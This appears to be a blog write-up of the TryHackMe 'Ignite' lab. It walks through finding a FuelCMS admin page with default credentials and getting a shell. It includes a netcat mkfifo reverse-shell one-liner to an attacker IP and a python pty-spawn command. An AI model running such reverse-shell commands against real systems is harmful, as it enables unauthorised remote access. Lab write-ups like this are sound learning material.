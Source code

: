 ```yaml
---
layout: post
title: "Ignite"
author: "Nicholas Coleman"
date: 2025-04-11
tags: tryhackme
---
```


### Info

IP: 10.10.233.34

### Nmap

![nmap](/security.github.io/images/ignite/1.png)

Website:
![site](/security.github.io/images/ignite/2.png)

Gobuster:
![gobuster](/security.github.io/images/ignite/3.png)

Exploits:
![exploit](/security.github.io/images/ignite/4.png)

Since the admin did not change their default password, it seems I can just login without having to brute force anything, or figure it out. 

The admin page is located at: http://10.10.233.34/fuel

This brings me to a CMS, where there is very little information.

I decide to now just try out an exploit I found called FuelCMS which grants me a reverse shell. 

![shell](/security.github.io/images/ignite/8.png)

Bingo!

![bingo](/security.github.io/images/ignite/9.png)

I was able to find the user.txt flag pretty easily. 

Looking around, I was able to find a database file:

![10](/security.github.io/images/ignite/10.png)

Root user found! Now I have to escalate. 

`rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.6.25.18 4242 > /tmp/f`

This spawns a terminal so that I can login to root:

`python -c 'import pty; pty.spawn("/bin/sh")'`

![final](/security.github.io/images/ignite/11.png)

